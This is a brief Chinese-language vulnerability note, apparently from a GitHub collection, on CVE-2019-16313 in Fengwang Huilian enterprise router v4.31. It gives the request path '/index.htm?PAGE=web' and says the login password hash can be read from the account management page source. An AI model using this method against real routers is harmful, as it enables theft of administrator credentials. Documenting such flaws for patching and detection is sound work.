 # CVE-2019-16313 蜂网互联企业级路由器hash泄露

影响版本：蜂网互联企业级路由器v4.31  

![image](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/%E8%9C%82%E7%BD%91%E4%BA%92%E8%81%94%E4%BC%81%E4%B8%9A%E7%BA%A7%E8%B7%AF%E7%94%B1%E5%99%A8/CVE-2019-16313/PIC/w.jpg)

利用方式：
```
/index.htm?PAGE=web
```
选择web账号管理： 查看源代码即可获取到登录密码的哈希值：  
![image](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/%E8%9C%82%E7%BD%91%E4%BA%92%E8%81%94%E4%BC%81%E4%B8%9A%E7%BA%A7%E8%B7%AF%E7%94%B1%E5%99%A8/CVE-2019-16313/PIC/p.jpg)